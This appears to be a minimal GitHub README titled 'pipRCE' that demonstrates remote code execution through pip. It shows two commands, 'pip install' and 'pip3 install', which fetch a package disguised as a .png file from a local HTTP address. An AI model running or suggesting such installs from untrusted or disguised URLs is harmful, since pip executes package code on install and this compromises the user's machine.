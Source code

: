 # pipRCE
pip3 RCE


pip install http://127.0.0.1/test010.png
pip3 install http://127.0.0.1/test010.png
